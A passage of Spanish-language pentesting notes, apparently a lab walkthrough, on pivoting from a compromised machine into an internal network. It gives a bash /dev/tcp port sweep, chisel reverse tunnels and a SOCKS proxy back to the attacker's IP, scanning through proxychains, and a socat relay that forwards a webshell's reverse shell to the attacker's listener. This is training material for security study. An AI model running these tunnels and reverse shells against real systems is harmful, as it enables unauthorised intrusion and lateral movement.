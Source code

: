 Una vez dentro de la máquina friendly 3 vemos que tenemos la otra interfaz de red que se conecta con la siguiente máquina:
![[Mis apuntes/ANEXOS/Pasted image 20230813134718.png]]
Vamos a encontrar hosts que estén dentro de esa interfaz 10.10.10.5/24, por tanto creamos un script de bash que vaya haciendo un ping a cada uno de los host dentro del rango de red y los puertos abiertos:
```bash
#!/bin/bash

for i in $(seq 1 254); do
        for port in  21 22 80 443 445 8080; do
                timeout 1 bash -c "echo '' > /dev/tcp/10.10.10.$i/$port" &>/dev/null && echo "[+] Host 10.10.10.$i - PORT $port - OPEN" &
        done
done; wait
```
Y vemos que nos encuentra estos hosts, donde la .5 somos nosotros, y la .4 es el objetivo:
![[Mis apuntes/ANEXOS/Pasted image 20230813164756.png]]
De todos modos, si queremos llegar a la 10.10.10.4 desde nuestra máquina atacante, tenemos que usar chisel:
![[Mis apuntes/ANEXOS/Pasted image 20230813135914.png]]
Nos lo descargamos:
![[Mis apuntes/ANEXOS/Pasted image 20230813140022.png]]
Nos lo compartimos primero con la máquina friendly3:
![[Mis apuntes/ANEXOS/Pasted image 20230813140205.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230813140218.png]]
Por tanto, desde la máquina atacante abrimos un servidor con chisel para recibir la conexiones entrantes:
```bash
./chisel_1.8.1_linux_amd64 server --reverse -p 1234
```
![[Mis apuntes/ANEXOS/Pasted image 20230813140452.png]]
Y ahora en la máquina víctima ejecutamos este otro comando para recibir el puerto 80 de la máquina objetivo dentro del 1234 de nuestra máquina atacante:
```bash
./chisel client 192.168.0.30:1234 R:80:10.10.10.6:80
```
![[Mis apuntes/ANEXOS/Pasted image 20230813165106.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230813165051.png]]
De tal forma que ahora nuestro puerto 80 va a ser el puerto 80 de la máquina objetivo:
![[Mis apuntes/ANEXOS/Pasted image 20230813165142.png]]
Pero lo ideal sería poder traernos todos los puertos en lugar de hacerlo uno a uno, por lo que usaremos un socks con este parámetro:
```bash
./chisel client 192.168.0.30:1234 R:socks
```
![[Mis apuntes/ANEXOS/Pasted image 20230813162111.png]]
Donde crearemos un tunel por el puerto 1080, el cual se utiliza por defecto:
![[Mis apuntes/ANEXOS/Pasted image 20230813162132.png]]
Y ahora nos abrimos el fichero proxychains4.conf:
```bash
nano /etc/proxychains4.conf
```
Y tenemos que asegurarnos que esta línea esté descomentada:
![[Mis apuntes/ANEXOS/Pasted image 20230813162427.png]]
Y en la parte de debajo del todo tenemos que escribir lo siguiente, que será nuestra propia IP por el tunel que está dentro del puerto 1080:
![[Mis apuntes/ANEXOS/Pasted image 20230813162536.png]]
Y ahora si hacemos un escaneo de nmap pasando por el proxychains, vamos a poder realizar correctamente este escaneo:
![[Mis apuntes/ANEXOS/Pasted image 20230813165257.png]]
Lo mismo ocurriría si queremos ejecutar un whatweb o cualquier otra herramienta, ya que tenemos que pasarla primero por el túnel del proxychains:
![[Mis apuntes/ANEXOS/Pasted image 20230813165318.png]]
Pero en el navegador, si queremos visualizar el puerto 80, tendremos que pasarle el proxy de la siguiente forma:
![[Mis apuntes/ANEXOS/Pasted image 20230813163455.png]]
Y ya podremos visualizar el puerto 80 de la máquina sin problema:
![[Mis apuntes/ANEXOS/Pasted image 20230813165400.png]]
Lo mismo haríamos por ejemplo si queremos acceder vía ftp, donde le pasaremos primero el túnel del proxychains:
![[Mis apuntes/ANEXOS/Pasted image 20230813165515.png]]
Por otra parte, si quisiéramos hacer fuzzing, tendríamos que pasar también por el proxychains o utilizar parámetros específicos de gobuster o la herramienta que estemos usando, por lo que lo haríamos de esta forma:
```bash
gobuster dir -u http://10.10.10.6 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt --proxy socks5://127.0.0.1:1080
```
![[Mis apuntes/ANEXOS/Pasted image 20230813165642.png]]
Vamos a hacer la intrusión donde debemos de subir la webshell a la máquina víctima para enviarnos la reverse shell:
![[Mis apuntes/ANEXOS/Pasted image 20230813165756.png]]
Y ahora la IP que debemos poner para recibir la reverse shell debe ser la de la máquina intermedia donde se estará ejecutando socat:
![[Mis apuntes/ANEXOS/Pasted image 20230816155814.png]]
Y la subimos:
![[Mis apuntes/ANEXOS/Pasted image 20230813170102.png]]
De todos modos, para recibir la reverse shell tendremos que usar socat, por lo que lo vamos a descargar:
![[Mis apuntes/ANEXOS/Pasted image 20230816160137.png]]
Y ahora este binario de socat nos lo compartimos con la máquina friendly 3:
![[Mis apuntes/ANEXOS/Pasted image 20230813170304.png]]
Y deste otra ventana de la friendly 3 nos lo descargamos:
![[Mis apuntes/ANEXOS/Pasted image 20230813170551.png]]
Ahora ejecutamos el socat en la máquina intermedia, mandando al puerto 443 de la máquina atacante todo el tráfico recibido por el puerto 4343 de la máquina intermedia:
```bash
./socat tcp-l:443,fork,reuseaddr tcp:192.168.0.30:443
```
![[Mis apuntes/ANEXOS/Pasted image 20230816160350.png]]
Y ahora si escuchamos con netcat, habremos recibido la conexión al haber llamado al fichero php malicioso desde el navegador:
![[Mis apuntes/ANEXOS/Pasted image 20230816160418.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230816160429.png]]



